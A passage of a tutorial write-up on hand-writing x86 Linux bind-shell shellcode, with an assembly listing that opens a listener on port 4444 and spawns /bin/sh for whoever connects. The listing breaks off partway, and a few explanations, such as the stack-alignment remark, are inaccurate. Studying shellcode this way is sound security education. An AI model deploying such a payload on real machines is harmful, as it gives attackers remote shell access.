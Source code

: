 Then from the file "/usr/include/linux/in.h" we obtain the value for the `sizeof` function that is also called within bind. This value is defined as 16, so we put that into `dl`, our last argument holder. 

Finally we load `ax` with the syscall value of `bind`, which is 361 as seen in the same file we got the `socket` value from, and we again call the `int 0x80` interrupt to actually execute the bind syscall.


The next few lines are effectively a rinse and repeat from above, executing the `accept` syscall to await connections, and the `dup2` syscall to allow standard in, out, and error. With `dup2` we create a loop, so that it loads all three of the file descriptors so that the bind shell is fully interactive.


The next notable set of instructions is acutally executing the `execve` syscall, which will point to `/bin/sh`, so that when a connection is made to our bind port, it will execute a shell so that an attacker could interact with the target machine.

```nasm
 	push  0x68732f2f ; push the end of "/bin//sh"
        push  0x6e69622f ; push the beginning of "/bin//sh", must do it backwards because of how higher memory goes on top of stack first
```
These instructions are loading the value "/bin//sh" on to the stack. It needs to happen in reverse order (starting with //sh) since x86 works from highest memory to lowest memory values. It's also important to note that we add the extra "/" in the command so that the values are divisible by 8, making memory management easier. We then call the `execve` syscall and then the `exit` syscall to actually start our program and finally create the full bind TCP shell on our target.

Our final program code is seen below:

```nasm
global _start




section .text
	_start:

	; set needed registers to zero

	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx


	; setting arguments

	mov bl, 2 	; PF_INET value from /usr/include/i386-linux-gnu/bits/socket.h
	mov cl, 1	; setting up SOCK_STREAM, as seen in C code and pulled from /usr/include/i386-linux-gnu/bits/socket_type.h
	mov dl, 6	; setting protocol again as in C code, pulled from /usr/include/linux/netinet/in.h
	
	mov ax, 359	; syscall socket()
	
	int 0x80	; create the socket ( socket() in C code ) 


	xor edx, edx	; clear out edx
	mov ebx, eax	; put the value of the socket creation into ebx
	push edx	; We want the bind shell to listen on all interfaces, so pushing all zeroes will accomplish this
	push word 0x5c11 ; this is the port (4444) in little endian
	push word 0x02	; making the the in_family AF_INET again, and doing word for stack management
	mov ecx, esp	; point the top of the stack that contains the sockaddr structure
```